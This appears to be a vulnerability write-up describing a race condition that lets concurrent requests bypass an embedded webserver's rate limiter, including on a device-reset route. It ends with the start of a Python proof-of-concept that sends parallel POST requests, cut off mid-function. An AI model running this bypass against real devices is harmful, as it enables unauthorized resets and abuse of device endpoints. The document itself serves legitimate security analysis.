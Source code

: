 ```
Time T=1002ms:
  Thread A resumes execution at line 102
  └─ Writes: w.last_ms = now (1000ms)
  └─ Returns false (ALLOWED)
  └─ Request proceeds ✓

Time T=1003ms:
  Thread B resumes execution at line 102
  └─ Overwrites: w.last_ms = now (1001ms)
  └─ Returns false (ALLOWED)
  └─ Request proceeds ✓

RESULT: Both requests bypassed rate limiting!
```

### Why This Happens

1. **Line 93:** Reads `w.last_ms` (check phase)
2. **Line 102:** Writes `w.last_ms` (update phase)
3. **No synchronization between phases:** Another thread can read stale `last_ms` and make independent decision
4. **No mutex, spinlock, or atomic operation:** Code uses raw global array with no protection

### Critical Windows Affected

From `control_windows[]` in webserver_rate_limiter.h (lines 41-58):

- **Line 42:** ROUTE_PARAMS, ROUTE_POST, 300ms window
- **Line 43:** ROUTE_WIFI_LINK_OPTIONS, ROUTE_POST, 300ms window
- **Line 44:** ROUTE_SELECT, ROUTE_POST, 200ms window
- **Line 46:** ROUTE_RESET, ROUTE_POST, 1000ms window

Most critical: **ROUTE_RESET** (1000ms window) - attacker could trigger device reset twice in rapid succession.

### Proof-of-Concept Attack

**Conceptual Attack Code (Python - Concurrent Requests):**

```python
import threading
import requests
import time
from concurrent.futures import ThreadPoolExecutor, as_completed

def rate_limit_bypass_attack(target_ip, route="/api/params", window_ms=300):
    """
    Bypass rate limiting by sending concurrent requests
    Both arrive within the rate limit window but both get through
    """

    results = {
        'allowed': 0,
        'rate_limited': 0,
        'errors': 0
    }
    lock = threading.Lock()

    def send_request(request_num):
        try:
            response = requests.post(
                f'http://{target_ip}{route}',
                json={'brightness': 0.5},
                timeout=2
            )
```